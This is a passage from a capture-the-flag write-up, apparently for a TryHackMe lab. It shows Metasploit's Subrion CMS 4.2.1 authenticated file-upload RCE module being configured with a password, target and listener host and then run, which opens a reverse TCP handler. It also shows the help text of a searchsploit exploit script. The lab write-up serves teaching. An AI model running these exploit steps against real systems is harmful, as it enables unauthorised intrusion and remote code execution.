 ## Metasploit

Now let's research about Subrion CMS v 4.2.1 on [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) :

```
msf6 > search Subrion CMS

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/http/subrion_cms_file_upload_rce  2018-11-04       excellent  Yes    Intelliants Subrion CMS 4.2.1 - Authenticated File Upload Bypass to RCE
```

Let's use it :

```
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set Password Scam2021
Password => Scam2021
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set rhosts 10.10.1.80
rhosts => 10.10.1.80
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set lhost 10.8.162.183
lhost => 10.8.162.183
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set TARGETURI /subrion/panel
TARGETURI => /subrion/panel
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > exploit
[*] Started reverse TCP handler on 10.8.162.183:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://10.10.1.80/subrion/panel/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 7w2BoAqe01nfK6ggtrTakYwpjfd6uCzXTx0yXdpj
[*] Logging in to Subrion Admin Panel at: http://10.10.1.80/subrion/panel/panel/ using credentials admin:Scam2021

```

I can't have a meterpreter shell idk why don't work.
## Searchsploit

We will use [Searchsploit](../../3%20-%20Tags/Hacking%20Tools/Searchsploit.md) to search for the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) and use it :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ python3 49876.py -h
Usage: 49876.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri http://target/panel
  -l USER, --user=USER  User credential to login
  -p PASSW, --passw=PASSW
                        Password credential to login
                                                                                                               
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
```